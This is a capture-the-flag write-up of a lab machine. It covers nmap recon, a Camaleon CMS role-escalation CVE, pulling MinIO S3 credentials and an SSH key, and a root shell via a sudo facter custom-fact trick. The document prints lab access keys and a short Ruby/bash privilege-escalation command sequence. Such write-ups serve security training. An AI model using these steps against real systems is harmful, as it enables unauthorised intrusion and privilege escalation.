import PasswordProtect from "~/components/PasswordProtect.client";

```
Scope:
10.129.20.26
```
# Recon
## Nmap

```bash
sudo nmap -sC -sV -sT -p- -Pn -T5 --min-rate=5000 -vvvv facts.htb

PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 9.9p1 Ubuntu 3ubuntu3.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4d:d7:b2:8c:d4:df:57:9c:a4:2f:df:c6:e3:01:29:89 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNYjzL0v+zbXt5Zvuhd63ZMVGK/8TRBsYpIitcmtFPexgvOxbFiv6VCm9ZzRBGKf0uoNaj69WYzveCNEWxdQUww=
|   256 a3:ad:6b:2f:4a:bf:6f:48:ac:81:b9:45:3f:de:fb:87 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPCNb2NXAGnDBofpLTCGLMyF/N6Xe5LIri/onyTBifIK
80/tcp    open  http    syn-ack nginx 1.26.3 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 8C83ADFFE48BE12C38E7DBCC2D0524BC
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.26.3 (Ubuntu)
|_http-title: facts
54321/tcp open  http    syn-ack Golang net/http server
|_http-server-header: MinIO
| http-methods: 
|_  Supported Methods: GET OPTIONS
|_http-title: Did not follow redirect to http://facts.htb:9001
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Accept-Ranges: bytes
|     Content-Length: 303
|     Content-Type: application/xml
|     Server: MinIO
|     Strict-Transport-Security: max-age=31536000; includeSubDomains
|     Vary: Origin
|     X-Amz-Id-2: dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8
|     X-Amz-Request-Id: 188FE85264FAB013
|     X-Content-Type-Options: nosniff
|     X-Xss-Protection: 1; mode=block
|     Date: Sat, 31 Jan 2026 19:43:39 GMT
|     <?xml version="1.0" encoding="UTF-8"?>
|     <Error><Code>InvalidRequest</Code><Message>Invalid Request (invalid argument)</Message><Resource>/nice ports,/Trinity.txt.bak</Resource><RequestId>188FE85264FAB013</RequestId><HostId>dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8</HostId></Error>
|   GenericLines, Help, RTSPRequest, SSLSessionReq: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 400 Bad Request
|     Accept-Ranges: bytes
|     Content-Length: 276
|     Content-Type: application/xml
|     Server: MinIO
|     Strict-Transport-Security: max-age=31536000; includeSubDomains
|     Vary: Origin
|     X-Amz-Id-2: dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8
|     X-Amz-Request-Id: 188FE84E9E3B613B
|     X-Content-Type-Options: nosniff
|     X-Xss-Protection: 1; mode=block
|     Date: Sat, 31 Jan 2026 19:43:22 GMT
|     <?xml version="1.0" encoding="UTF-8"?>
|     <Error><Code>InvalidRequest</Code><Message>Invalid Request (invalid argument)</Message><Resource>/</Resource><RequestId>188FE84E9E3B613B</RequestId><HostId>dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8</HostId></Error>
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Vary: Origin
|     Date: Sat, 31 Jan 2026 19:43:23 GMT
|_    Content-Length: 0
```

<PasswordProtect client:load>

## 80/TCP - HTTP



### gobuster

I then went ahead and used `gobuster` to enumerate the directories.



I headed over and tried to log in but failed, so instead went to the `/register` tab where I registered for an account.






Once inside I noticed at the bottom that it's running on **Camaleon CMS - 2.9.0**.

### OSINT

I went ahead and started looking around for exploits:



Delving deeper into it we find that the founder of this CVE posted a short informational writeup on [tenable](https://www.tenable.com/security/research/tra-2025-09):



### CVE-2025-2304

So I head over and attempt to change the password, where I notice the **Role** is greyed out. 



Then using [this exploit](https://github.com/the8frust/CVE-2025-2304/blob/main/exploit.py) I was able to exploit the vulnerability inside the password change:



Logging back in we notice that we now have *Administrator* privileges.



Heading over to the following page I found the AWS S3 info:



# Exploitation
## MinIO cli

In order to make use of this S3 bucket I downloaded `mc`:

```bash
wget https://dl.min.io/client/mc/release/linux-amd64/mc -O /usr/local/bin/mc && chmod +x /usr/local/bin/mc
```

Next up I created an alias:

```bash
mc alias set facts http://facts.htb:54321 AKIA8A8C1BCD91954B20 H6mMjKA49rX605mmBoJrrxURj8PIPRfb9EbuaIas
```

Once that was done I could issue commands: 


I decided to check out the `internal/` directory:



And lo and behold all the way at the bottom:



I copied over the `ssh` key 



I then tried to identify the user to which this key belonged to, but unfortunately the username wasn't listed in `authorized_keys`:



Shortly after I noticed that the `id_ed25519` key was actually encrypted with a passphrase, and I could decrypt it as follows:




# Foothold
## Shell as trivia

Combining all of the above we are able to log in: 



However the `user.txt` flag was not inside this user's `/home` directory, but rather in *william*'s. 
Luckily for us though we have `read` privs over the flag.

### user.txt



# Privilege Escalation
## facter

Checking out the `sudo` privs I find the following:



using [GTFObins](https://gtfobins.org/gtfobins/facter/) I found the following:



We can get instant *root* privs by abusing this as follows:

```bash
mkdir /tmp/f
echo 'exec "/bin/bash"' > /tmp/f/pwn.rb
sudo facter --custom-dir=/tmp/f
```



### root.txt

